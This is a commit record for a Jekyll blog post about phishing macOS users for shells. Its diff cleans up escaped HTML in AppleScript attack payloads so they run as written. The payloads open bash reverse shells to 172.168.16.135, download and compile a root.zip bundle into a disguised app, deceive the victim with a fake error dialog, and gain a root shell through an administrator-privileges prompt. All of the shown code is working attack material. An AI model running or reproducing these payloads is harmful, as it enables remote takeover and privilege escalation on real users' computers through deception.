

Before and after one commit to mrpnkt/mrpnkt.github.io, a Jekyll site: the page built from _posts/2017-08-22-phishing-for-shells-on-rotten-apples.md, in a window 1280 px wide and 900 px high, scrolled down 3298 px, cut to the strip 0-876 px from the top of the window. Shown: the whole strip, without its empty margins (231-1048 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2017-08-22-phishing-for-shells-on-rotten-apples.md

````diff
--- a/_posts/2017-08-22-phishing-for-shells-on-rotten-apples.md
+++ b/_posts/2017-08-22-phishing-for-shells-on-rotten-apples.md
@@ -58,9 +58,9 @@ tell application "HelpViewer"
 	quit
 end tell
 delay 1
-do shell script "/bin/bash -i &amp;amp;amp;amp;amp;gt;&amp;amp;amp;amp;amp;amp; /dev/tcp/172.168.16.135/443 0&amp;amp;amp;amp;amp;gt;&amp;amp;amp;amp;amp;amp;1 &amp;amp;amp;amp;amp;gt; /dev/null 2&amp;amp;amp;amp;amp;gt;&amp;amp;amp;amp;amp;amp;1 &amp;amp;amp;amp;amp;amp;"
+do shell script "/bin/bash -i >& /dev/tcp/172.168.16.135/443 0>&1 > /dev/null 2>&1 &"
 display dialog "Warning: Can't install fancy new App. OK go back to work!" buttons {"OK"} default button "OK"
-do shell script "curl http://172.168.16.135/root.zip &amp;amp;amp;amp;amp;gt; /tmp/root.zip &amp;amp;amp;amp;amp;amp;&amp;amp;amp;amp;amp;amp; cd /tmp &amp;amp;amp;amp;amp;amp;&amp;amp;amp;amp;amp;amp; unzip root.zip &amp;amp;amp;amp;amp;amp;&amp;amp;amp;amp;amp;amp; osacompile -o root.app root.txt &amp;amp;amp;amp;amp;amp;&amp;amp;amp;amp;amp;amp; mv applet.icns root.app/Contents/Resources/applet.icns"
+do shell script "curl http://172.168.16.135/root.zip > /tmp/root.zip && cd /tmp && unzip root.zip && osacompile -o root.app root.txt && mv applet.icns root.app/Contents/Resources/applet.icns"
 repeat until application "System Preferences" is running
 	delay 2
 end repeat
@@ -73,7 +73,7 @@ When root.app gets executed it overlays a legitimate administrator app and asks
 ```
 
 -- stage 2
-do shell script "/bin/bash -i &amp;amp;amp;gt;&amp;amp;amp;amp; /dev/tcp/172.168.16.135/8080 0&amp;amp;amp;gt;&amp;amp;amp;amp;1 &amp;amp;amp;gt; /dev/null 2&amp;amp;amp;gt;&amp;amp;amp;amp;1 &amp;amp;amp;amp;" with administrator privileges
+do shell script "/bin/bash -i >& /dev/tcp/172.168.16.135/8080 0>&1 > /dev/null 2>&1 &" with administrator privileges
 delay 3
 display notification "https://www.apple.com" with title "got root" sound name "Ping"
 
````
